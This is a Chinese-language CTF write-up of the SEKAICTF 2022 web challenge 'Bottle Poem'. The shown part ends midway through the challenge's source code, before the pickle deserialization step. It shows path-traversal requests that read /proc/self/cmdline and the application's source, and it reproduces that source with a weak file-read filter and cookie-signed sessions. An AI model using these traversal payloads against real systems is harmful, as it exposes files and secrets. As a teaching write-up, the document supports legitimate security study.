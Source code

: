 ```yaml
---
title: SEKAICTF Web Writeup
date: 2022-10-03 22:46:00
updated: 2022-10-03 22:46:00
tags: [ctf,security]
description: 一场国外练手赛，题目质量挺高
---
```


## Bottle Poem

> Come and read poems in the bottle.
> No bruteforcing is required to solve this challenge. Please do not use scanner tools.
> Author: bwjy

Python Bottle框架伪造session打pickle反序列化的题目。

`/show`接口存在任意文件读取漏洞

`/show?id=../../../../../../proc/self/cmdline`得到源码位置`/app/app.py`

`/show?id=../../../../../../app/app.py`读取源码

```python
from bottle import route, run, template, request, response, error
from config.secret import sekai
import os
import re


@route("/")
def home():
    return template("index")


@route("/show")
def index():
    response.content_type = "text/plain; charset=UTF-8"
    param = request.query.id
    if re.search("^../app", param):
        return "No!!!!"
    requested_path = os.path.join(os.getcwd() + "/poems", param)
    try:
        with open(requested_path) as f:
            tfile = f.read()
    except Exception as e:
        return "No This Poems"
    return tfile


@error(404)
def error404(error):
    return template("error")


@route("/sign")
def index():
    try:
        session = request.get_cookie("name", secret=sekai)
        if not session or session["name"] == "guest":
            session = {"name": "guest"}
            response.set_cookie("name", session, secret=sekai)
            return template("guest", name=session["name"])
        if session["name"] == "admin":
            return template("admin", name=session["name"])
```